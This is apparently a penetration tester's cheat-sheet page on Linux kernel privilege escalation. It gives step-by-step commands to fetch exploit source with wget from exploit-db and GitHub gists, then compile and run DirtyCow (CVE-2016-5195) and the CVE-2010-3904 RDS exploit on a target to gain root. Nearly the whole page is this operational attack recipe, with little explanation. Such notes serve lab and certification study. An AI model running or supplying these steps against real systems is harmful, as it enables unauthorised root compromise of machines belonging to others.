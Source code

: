 #### Manual
```
https://github.com/lucyoa/kernel-exploits
```

```bash - linux
uname -a
```

Google "Linux debian 2.6.32-5-amd64 exploit"

```bash - kali
 wget https://www.exploit-db.com/raw/40839
```

#### DirtyCow
```bash - target
gcc -pthread c0w.c -o cow
```

```bash - target
./cow
```

```bash - target
passwd
```

#### DirtyCow2
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c






#### Automated
![[3._Automated Tools#Linux Exploit Suggester]]


#### CVE 2016-5195
```bash - kali
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

(un)comment correct payload first (x86 or x64)!

```bash - kali
mousepad cowroot.c
```

#### CVE 2010-3904 RDS
Download this file:
http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

Transfer to target, compile and run.
```bash - target
gcc linux-rds-exploit.c -o privesc
```

```bash - target
./privesc
```
